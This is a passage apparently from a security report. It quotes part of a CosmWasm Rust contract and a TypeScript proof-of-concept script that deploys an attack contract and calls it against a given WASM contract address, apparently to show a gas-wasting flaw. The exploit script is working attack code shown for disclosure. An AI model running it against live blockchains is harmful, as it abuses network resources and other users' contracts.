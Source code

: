 >         ))),
>         ExecuteMsg::NoGas {} => Ok(Response::new().add_attribute("method", "no_gas")),
>     }
> }
> 
> // ./msg.rs
> use cosmwasm_schema::{cw_serde};
> 
> #[cw_serde]
> pub struct InstantiateMsg {}
> 
> #[cw_serde]
> pub enum ExecuteMsg {
>     WasteGas {},
>     NoGas {},
> }
> ```
> 
> And here's a script that executes the wasteful gas scenario:
> 
> ```ts
> import { HDNodeWallet, JsonRpcProvider, toUtf8Bytes } from "ethers";
> import { WastefulGas__factory } from "../../typechain-types";
> 
> // connects to local node
> const jsonRpcProvider = new JsonRpcProvider("http://localhost:8545");
> 
> // mnemonic for the HD wallet
> const mnemonic = "..."
> const owner = HDNodeWallet.fromPhrase(mnemonic, "", "m/44'/118'/0'/0/0").connect(jsonRpcProvider)
> 
> const WASM_CONTRACT_ADDR = process.argv[2];
> 
> async function main() {
>   // deploy contract
>   const factory = new WastefulGas__factory(owner);
>   const attackContract = await factory.deploy();
>   await attackContract.waitForDeployment();
>   console.log("contract address: ", await attackContract.getAddress())
> 
>   const msgBzNoGas = toUtf8Bytes(JSON.stringify({
>     "no_gas": {},
>   }));
> 
>   // call attack
>   const txNoGas = await attackContract.attack(WASM_CONTRACT_ADDR, msgBzNoGas, { gasLimit: "200000" });
>   const receiptNoGas = await txNoGas.wait();
>   console.log("receiptNoGas: ", receiptNoGas);
> 
> 
>   const msgBzWasteGas = toUtf8Bytes(JSON.stringify({
>     "waste_gas": {
>       "gas_limit": 0,
>     },
>   }));
>   // call attack
>   const txWasteGas = await attackContract.attack(WASM_CONTRACT_ADDR, msgBzWasteGas, { gasLimit: "200000" });
>   const receiptWasteGas = await txWasteGas.wait();
>   console.log("receiptWasteGas: ", receiptWasteGas);
> }
> 
> main();